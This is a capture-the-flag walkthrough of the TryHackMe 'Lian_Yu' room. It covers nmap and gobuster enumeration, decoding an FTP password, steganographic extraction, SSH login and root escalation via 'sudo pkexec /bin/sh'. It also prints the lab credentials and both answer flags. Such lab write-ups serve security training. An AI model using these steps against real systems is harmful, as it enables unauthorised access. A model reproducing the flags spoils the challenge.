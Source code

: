# Lian_Yu - TryHackme Writeup Walkthrough

Room link : https://tryhackme.com/room/lianyu


# 1. Scanning the IP
  
  ```bash
  nmap -sC -sV 10.10.228.22 
```
  
  ![1](https://user-images.githubusercontent.com/119054834/204704431-03aa0bc5-a557-45db-be3a-bf06c28897cb.png)

```bash
Ports found ---
port 21/tcp - FTP - (vsftpd 3.0.2)
port 22/tcp - SSH - (OpenSSH 6.7p1)
port 80/tcp - HTTP - (Apache httpd)
port 111/tcp - RPC - (rpcbind) 
```

# 2. Enumeration

```bash
Visit the IP 
```
![ipvisit](https://user-images.githubusercontent.com/119054834/204705444-427b5bd9-cf36-4f4c-b4d7-aff2af9cd883.png)
  ```bash
Now run gobuster for hidden Directories.

gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![hidden dr](https://user-images.githubusercontent.com/119054834/204705829-a864fe7c-5d5a-41c3-9633-4c4911aadc30.png)
```bash
Found a directory : /island
```
```bash
Now go to the browser and serarch http://10.10.228.22/island
```

![highligj](https://user-images.githubusercontent.com/119054834/204706876-b704c5ba-2cc8-42b3-8996-5431943e365e.png)

![gottheword](https://user-images.githubusercontent.com/119054834/204706887-57e0d78d-d11a-4383-aa2f-67ce57c4a86c.png)

```bash
Found out the Code Word by highlighting the page text or viewing the page source.
Code Word -  'vigilante' - (this is our FTP username)
```

```bash
Again run gobuster on /island directory for discover a different directory.

gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![2100](https://user-images.githubusercontent.com/119054834/204708983-f9f739b5-3547-4520-a4a7-9aa0f4c571f7.png)

```bash
Here we found another directory : /2100
```

```bash
Now doing the same again go to the browser and serarch http://10.10.228.22/island/2100
```
![pgsource](https://user-images.githubusercontent.com/119054834/204710087-412a785a-bcb9-4911-9ff6-3a227ac88d6f.png)

```bash
View the page source -- 
```
![ticket](https://user-images.githubusercontent.com/119054834/204710197-498e8a6b-9dfb-4560-a73d-552b80ba94db.png)

```bash
Here it says there is a file with a '.ticket' extension.
```
```bash
Now again run gobuster o look for files with a '.ticket' extension.

gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
![green ticket](https://user-images.githubusercontent.com/119054834/204712070-d4d4d78d-b2e3-469b-9aba-5c60d55f9896.png)

```bash
Found another director : /green_arrow.ticket
```
```bash 
Again going to the browser search http://10.10.228.22/island/2100/green_arrow.ticket.
```
![rty](https://user-images.githubusercontent.com/119054834/204712578-aa367484-238c-44bf-ba96-ebdc69cd0202.png)

```bash
Seems we found an encryption : 'RTy8yhBQdscX' .  So now lets try to decode it ---

Go to https://gchq.github.io/CyberChef/

Use 'FromBase58' to decode it.
```
![hash](https://user-images.githubusercontent.com/119054834/204713677-f62752e5-e6f0-4133-a829-2134dac5a3b2.png)

```bash
Seems like we have cracked it : '!#th3h00d' - This is the FTP Password.
```

# 3. Now the FTP Login

```bash
Now as we have the username and passowrd ---
Username - vigilante
password -!#th3h00d

We can log in to the FTP service - 
```
![img files](https://user-images.githubusercontent.com/119054834/204716038-9301adf5-77a7-4c40-bfbf-ccaed5680bf4.png)

```bash
We got two users: 'vigilante' and 'slade' .
Also found 3 image files in the server. Download them in you system --- Follow the down commands to download the files -- 
```
![download](https://user-images.githubusercontent.com/119054834/204720485-509a69d7-98d2-419b-a0db-559180554bfb.png)

```bash
Now view the image files and we see that 'Leave.me.alone.png' is not opening.
Also the exiftool shows 'File Format error'
```
![pics](https://user-images.githubusercontent.com/119054834/204725099-ee18de71-fe4a-4b75-97b9-8e7b131326e9.png)
![exiftool](https://user-images.githubusercontent.com/119054834/204725349-fddd169c-bf7a-43cb-a4dd-3b2ef3a9237e.png)

```bash
Checking the header file of the image we found that it is actually wrong there.
```
![change](https://user-images.githubusercontent.com/119054834/204731008-cc259d3e-f9e9-489b-8096-1fe53cf3f2af.png)

```bash
The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
```
![correct](https://user-images.githubusercontent.com/119054834/204731135-e25be51b-ff4f-4182-839e-b00d892480e6.png)

```bash
Now lets change it -- 
```
![nowcorrect](https://user-images.githubusercontent.com/119054834/204731235-953dc235-9bd4-4a59-8301-743468b26887.png)

```bash
Now you can open the image file Here you got a password : 'password' 
```
![leaveme](https://user-images.githubusercontent.com/119054834/204734956-d1601a47-f823-4202-a206-e39b937150ad.png)

```bash
Now lets use steghide to extract any hidden files within the other image files.
```
```bash
steghide extract -sf aa.jpg
```
![extr](https://user-images.githubusercontent.com/119054834/204743926-86e6f2ee-527f-4f6c-8cf9-33bb466b4d12.png)

```bash
Now using the password 'password' we got earlier successfully extracted the .jpg file to a ss.zip file. 
We found a  a 'passwd.txt' and a 'shado file' unzipping the ss.zip file. 
```
![m3ta](https://user-images.githubusercontent.com/119054834/204744274-0025a238-5b73-462f-8af3-0d27b94f0b46.png)

```bash
Now cat 'shado' file and you get a password : 'M3tahuman' -- (ssh password)
```
![mt](https://user-images.githubusercontent.com/119054834/204745041-4fae5e35-7b71-4ab5-9b91-2b037dc0faf8.png)

# SSH Login

```bash
Now as we have got the ssh password we can now login -- 
User - slade 
password - M3tahuman
```
```bash
ssh slade@10.10.228.22   
```
![slade](https://user-images.githubusercontent.com/119054834/204746967-0dee761b-e105-4eb7-8160-52b84136945f.png)

```bash
Now that you're logged in search the user.txt flag --
```
```bash
slade@LianYu:~$ ls
user.txt
```
![user](https://user-images.githubusercontent.com/119054834/204747894-2d00d43a-79de-4ef6-9a74-760b325836e8.png)

```bash
user.txt - 'THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}'
```

# 4. Root Privilege Escalation

```bash
To find which commands we can run with root privileges we can run: ---
```
```bash
sudo -l
```
![slade2](https://user-images.githubusercontent.com/119054834/204750224-9ce2ae79-8a5a-4ab0-bc02-44d43f8c7978.png)

```bash
After running sudo -l , it will again ask for slade password -- use the same password - 'M3tahuman'.


Now You see it says we can run the 'pkexec' with root privileges ---- So now we can run run '/bin/sh' program as root & get the root access.
```
```bash
sudo pkexec /bin/sh
```
![root](https://user-images.githubusercontent.com/119054834/204752313-4153109a-d8bb-4191-9ad8-cb91a8d4ecd5.png)

```bash
root.txt - 'THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}'
```

```bash
Submit the flags
```

I hope this was helpful.

thanks.
